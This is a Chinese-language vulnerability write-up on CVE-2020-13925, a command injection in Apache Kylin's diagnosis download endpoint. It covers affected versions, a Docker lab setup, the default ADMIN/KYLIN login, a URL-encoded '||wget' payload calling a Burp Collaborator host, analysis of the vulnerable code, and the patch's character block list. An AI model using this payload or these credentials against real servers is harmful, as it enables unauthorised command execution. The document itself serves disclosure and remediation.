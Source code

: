 Title: CVE-2020-13925 Apache Kylin命令注入漏洞
Date: 2020-07-22 10:20
Category: 漏洞实践
Tags: Java,命令注入,漏洞
Slug: 
Authors: bit4woo
Summary: 

# CVE-2020-13925 Apache Kylin命令注入漏洞

## 漏洞简介


### 简要说明


Apache Kylin 是一个大数据平台


### 影响版本


- 2.3.0, 2.3.1, 2.3.2,
- 2.4.0, 2.4.1,
- 2.5.0, 2.5.1, 2.5.2,
- 2.6.0, 2.6.1, 2.6.2, 2.6.3, 2.6.4, 2.6.5, 2.6.6,
- 3.0.0-alpha, 3.0.0-alpha2,3.0.0-beta, 3.0.0, 3.0.1 3.0.2

Users of all previous versions after 2.3 **should upgrade to 3.1.0**.  即修复版本为: 3.1.0
### 漏洞利用条件


- 需要有管理员账号登陆 WEB 系统，docker部署的初始用户名和密码是 `ADMIN/KYLIN`。
## 漏洞复现
### 环境搭建


参考 [https://github.com/apache/kylin](https://github.com/apache/kylin) 使用docker进行环境部署，修改其中的版本为3.0.2（存在漏洞的版本）。可以去除 【-m 8G \ 】它的作用是分配内存的大小。


然后访问 [http://host:7070/kylin/login](http://127.0.0.1:7070/kylin/login) 初始用户名和密码是 `ADMIN/KYLIN`。
```bash
docker pull apachekylin/apache-kylin-standalone:3.0.2

docker run -d \
    -m 8G \
    -p 7070:7070 \
    -p 8088:8088 \
    -p 50070:50070 \
    -p 8032:8032 \
    -p 8042:8042 \
    -p 16010:16010 \
    apachekylin/apache-kylin-standalone:3.0.2
    
docker run -d \
    -p 7070:7070 \
    -p 8088:8088 \
    -p 50070:50070 \
    -p 8032:8032 \
    -p 8042:8042 \
    -p 16010:16010 \
    apachekylin/apache-kylin-standalone:3.0.2
```


### 漏洞验证PoC


```python
原始请求：
http://host:port/kylin/api/diag/project/learn_kylin/download
        
PoC请求，GET方法：
http://host:port/kylin/api/diag/project/%7c%7cwget%20h1j96qoac5o9mbqpkewkhxxa218rwg.burpcollaborator.net%7c%7c/download

即将项目名称“learn_kylin”替换为如下payload：
||wget h1j96qoac5o9mbqpkewkhxxa218rwg.burpcollaborator.net||

并将||和空格进行URL编码
```


### 复现步骤

登录系统后，访问 System-->Configuration-->Diagnosis。触发下载诊断信息的请求

```
http://host:port/kylin/api/diag/project/learn_kylin/download
```

![image.png](img/CVE-2020-13925 Apache Kylin命令注入漏洞/visit.png)
在burp的repeater中修改原始请求，即将项目名称“learn_kylin”替换为如上payload访问即可。

```
||wget h1j96qoac5o9mbqpkewkhxxa218rwg.burpcollaborator.net||
URL编码后：
%7c%7cwget%20h1j96qoac5o9mbqpkewkhxxa218rwg.burpcollaborator.net%7c%7c
```


![image.png](img/CVE-2020-13925 Apache Kylin命令注入漏洞/poc.png)
## 漏洞分析


### 定位漏洞代码
漏洞所在代码模块是server-base，可以在GitHub中看到

[https://github.com/apache/kylin/tree/kylin-3.0.2/server-base](https://github.com/apache/kylin/tree/kylin-3.0.2/server-base)

漏洞URL请求所对应的代码位置：
[https://github.com/apache/kylin/blob/kylin-3.0.2/server-base/src/main/java/org/apache/kylin/rest/controller/DiagnosisController.java](https://github.com/apache/kylin/blob/kylin-3.0.2/server-base/src/main/java/org/apache/kylin/rest/controller/DiagnosisController.java)

![image.png](img/CVE-2020-13925 Apache Kylin命令注入漏洞/code1.png)

[https://github.com/apache/kylin/blob/kylin-3.0.2/server-base/src/main/java/org/apache/kylin/rest/service/DiagnosisService.java](https://github.com/apache/kylin/blob/kylin-3.0.2/server-base/src/main/java/org/apache/kylin/rest/service/DiagnosisService.java)
![image.png](img/CVE-2020-13925 Apache Kylin命令注入漏洞/code2.png)
[https://github.com/apache/kylin/blob/kylin-3.0.2/core-common/src/main/java/org/apache/kylin/common/util/CliCommandExecutor.java](https://github.com/apache/kylin/blob/kylin-3.0.2/core-common/src/main/java/org/apache/kylin/common/util/CliCommandExecutor.java)
![image.png](img/CVE-2020-13925 Apache Kylin命令注入漏洞/code3.png)
![image.png](img/CVE-2020-13925 Apache Kylin命令注入漏洞/code4.png)

正常请求，服务器上将会执行的命令如下

```bash
命令格式：
diag.sh 项目名称 输出文件

命令实例：
/home/admin/apache-kylin-3.0.2-bin-hbase1x/bin/diag.sh learn_kylin /home/admin/apache-kylin-3.0.2-bin-hbase1x/bin/../tomcat/temp/diag_project6766592240383832860

当将使用输入的payload替换项目名称“learn_kylin”后，得到的命令是：

/home/admin/apache-kylin-3.0.2-bin-hbase1x/bin/diag.sh ||wget h1j96qoac5o9mbqpkewkhxxa218rwg.burpcollaborator.net|| /home/admin/apache-kylin-3.0.2-bin-hbase1x/bin/../tomcat/temp/diag_project6766592240383832860

||是“或”的意思，即在command A || comand B中，如果命令A执行失败，执行命令B。

这里单独执行diag.sh是会失败的，所以我们的payload得到了执行。
```



### 修复方案

对比3.0.2和3.1.0两个版本的代码：
src\main\java\org\apache\kylin\rest\controller\DiagnosisController.java
![code-diff.png](img/CVE-2020-13925 Apache Kylin命令注入漏洞/code-diff.png)


过滤代码在kylin-kylin-3.1.0\kylin-kylin-3.1.0\core-common\src\main\java\org\apache\kylin\common\util\CliCommandExecutor.java中，采用了黑名单方式过滤。
```java

    public static final String COMMAND_BLOCK_LIST = "[ &`>|{}()$;\\#~!+*\\\\]+";
    public static final String COMMAND_WHITE_LIST = "[^\\w%,@/:=?.\"\\[\\]]";
    public static final String HIVE_BLOCK_LIST = "[ <>()$;\\-#!+*\"'/=%@]+";


    /**
     * <pre>
     * Check parameter for preventing command injection, replace illegal character into empty character.
     *
     * Note:
     * 1. Whitespace is also refused because parameter is a single word, should not contains it
     * 2. Some character may be illegal but still be accepted because commandParameter maybe a URI/path expression,
     *     you may check "Character part" in https://docs.oracle.com/javase/8/docs/api/java/net/URI.html,
     *     here is the character which is not banned.
     *
     *     1. dot .
     *     2. slash /
     *     3. colon :
     *     4. equal =
     *     5. ?
     *     6. @
     *     7. bracket []
     *     8. comma ,
     *     9. %
     * </pre>
     */
    public static String checkParameter(String commandParameter) {
        return checkParameter(commandParameter, COMMAND_BLOCK_LIST);
    }

    public static String checkParameterWhiteList(String commandParameter) {
        return checkParameter(commandParameter, COMMAND_WHITE_LIST);
    }

    public static String checkHiveProperty(String hiveProperty) {
        return checkParameter(hiveProperty, HIVE_BLOCK_LIST);
    }

    private static String checkParameter(String commandParameter, String rex) {
        String repaired = commandParameter.replaceAll(rex, "");
        if (repaired.length() != commandParameter.length()) {
            logger.warn("Detected illegal character in command {} by {} , replace it to {}.", commandParameter, rex, repaired);
        }
        return repaired;
    }
```


命令注入常用的连接符 ||  && 都被过滤了，这里甚至过滤了空格，找不到绕过的方法。
## 参考链接
[https://mp.weixin.qq.com/s/LdEgENX2_b8tb12n4H9KJQ](https://mp.weixin.qq.com/s/LdEgENX2_b8tb12n4H9KJQ)


